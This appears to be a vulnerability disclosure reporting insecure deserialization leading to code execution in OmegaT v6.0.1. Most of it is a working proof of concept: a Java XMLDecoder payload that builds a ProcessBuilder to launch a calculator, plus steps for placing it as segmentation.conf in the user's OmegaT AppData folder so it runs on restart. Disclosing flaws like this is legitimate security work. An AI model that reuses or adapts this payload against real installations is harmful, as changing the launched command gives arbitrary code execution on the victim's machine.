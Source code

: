 # OmegaT V6.0.1 Insecure Deserialization & RCE
Affected Version: <= v6.0.1(latest release version)

Application: [Here](https://github.com/omegat-org/omegat/releases/tag/v6.0.1)



## Insecure Deserialization Vulnerability
```php
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1" >
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>
```
After saving the above code as file "segmentation.conf", upload the file to the "C:\Users\Username\AppData\Roaming\OmegaT" folder and start the application to trigger the vulnerability.



## Exploit

**Debug and get the path "C:\Users\Username\AppData\Roaming\OmegaT\segmentation.conf ".**

![image-20241026153741645](img/image-20241026153741645.png)



**Put the file segmentation.conf  into folder "C:\Users\Username\AppData\Roaming\OmegaT".**

![image-20241026153757980](img/image-20241026153757980.png)



**If you rerun OmegaT, the vulnerability will be triggerd and the calculator will pop.**

![image-20241026153812981](img/image-20241026153812981.png)